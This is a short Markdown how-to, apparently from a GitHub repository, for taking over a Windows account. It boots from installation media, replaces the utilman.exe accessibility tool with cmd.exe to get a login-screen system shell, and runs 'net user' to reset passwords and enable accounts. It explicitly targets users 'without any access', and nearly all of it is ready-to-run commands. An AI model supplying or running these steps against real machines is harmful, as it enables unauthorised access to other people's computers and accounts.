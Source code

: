 # Account
1.How to change user account
============================
Let's take a look to how to change user password without any access through Windows ISO.
Boot on Windows 10 ISO
On the language screen, chose your language and hit **SHIFT+F10**

1.1. Get Logical Volume inforations
-----------------------------------
When the cmd terminal is oppened, list Diske Caption and Volume Name :

```powershell
wmic logicaldisk get caption, VolumeName
```

Move to the Disk you want (letter found with the previous command)

```powershell
d:
```

Go to the system32 folder 

```powershell
cd windows\system32
```

1.2 Utilman
-----------
Use utilman despite off cmd.exe

```powershell
ren utilman.exe utilman.exe.bak
ren cmd.exe utilman.exe
```

Reboot
```powershell
wpeutil reboot
```

1.3 Change user password
------------------------
After rebooting, clic on accessibility icon

### 1.3.1 Change password
Change the user password

```powershell
Example :
net user admin root

net user $USER pass
```

### 1.3.2 Active user
Active user

```powershell
net user $USER /active:yes
```

Reboot

```powershell
wpeutil reboot
```

Replace utilman despite off cmd.exe

```powershell
ren utilman.exe cmd.exe
ren utilman.exe.bak utilman.exe
```

